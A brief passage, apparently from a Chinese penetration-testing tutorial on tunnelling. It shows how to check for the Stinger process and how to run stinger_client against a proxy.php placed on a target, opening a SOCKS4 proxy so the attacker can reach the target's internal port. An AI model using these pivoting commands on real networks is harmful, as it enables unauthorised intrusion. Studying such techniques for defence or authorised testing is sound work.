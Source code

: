 ```
tasklist /v |findstr stinger
```

![image-20230804214343865](img/隧道技术/image-20230804214343865.png)

#### 客户端

攻击机执行相对应的命令

```cpp
./stinger_client -w http://192.168.101.83/proxy.php -l 0.0.0.0 -p 6000
```

此时已经在 攻击机的 6000 端口启动了一个socks4代理，同时将目标机器 60020 端口映射到攻击机上

![image-20230804214546079](img/隧道技术/image-20230804214546079.png)
